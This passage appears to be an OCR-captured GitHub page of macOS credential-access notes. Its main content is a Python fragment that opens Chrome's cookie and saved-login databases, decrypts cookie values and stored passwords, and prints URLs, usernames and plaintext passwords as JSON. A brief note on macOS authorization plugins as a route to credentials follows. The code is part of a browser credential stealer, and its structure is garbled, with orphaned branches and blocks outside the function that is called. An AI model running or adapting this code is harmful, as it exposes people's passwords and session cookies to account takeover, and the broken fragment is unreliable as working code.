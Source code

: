 ```python
                        temp_val['value'] = chrome_decrypt(ev, key=key)
                    cookies_list.append(temp_val)
                
                print(json.dumps(cookies_list, sort_keys=True, indent=4))
            except sqlite3.OperationalError as e:
                print(f"Error executing SQL: {e}")
                print("Columns in the 'cookies' table:")
                cursor.execute("PRAGMA table_info(cookies);")
                columns = cursor.fetchall()
                for column in columns:
                    print(column[1])  # Print column name
    except sqlite3.Error as e:
        print(f"SQLite error: {e}")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
    finally:
        if conn:
            conn.close()
else:
    print("Cookie path is empty. Please provide a valid path.")
if login_data != "":
    fd = os.open(login_data, os.O_RDONLY) #open as read only
    database = sqlite3.connect('/dev/fd/%d' % fd)
    os.close(fd)
    sql = 'select username_value, password_value, origin_url from logins'
    decryptedList = []
    with database:
        for user, encryptedPass, url in database.execute(sql):
            if user == "" or (encryptedPass[:3] != b'v10'): #user will be empty if they have selected "never" store password
                continue
            else:
                print("Working on url: {}".format(url))
                urlUserPassDecrypted = (url, user, chrome_decrypt(encryptedPass, key=key))
                decryptedList.append(urlUserPassDecrypted)
    print(json.dumps(decryptedList, sort_keys=True, indent=4))

if __name__ == "__main__":
    cookie_path = "Cookies3"  # Update this to the correct path
    
    print(f"Diagnosing database: {cookie_path}")
    diagnose_database(cookie_path)
```

- # credential access via authorization plugins

authorization plugins (located in `/Library/Security/SecurityAgentPlugins`) extend the authentication system in macOS by allowing custom authentication methods to be integrated into the standard login process. `securityd` works with these plugins to handle authentication requests, by communicating with `SecurityAgent`, which loads + uses these plugins.

the plugins can implement custom authentication methods (biometric, 3rd-party IdPs) and so must be carefully designed and implemented. 
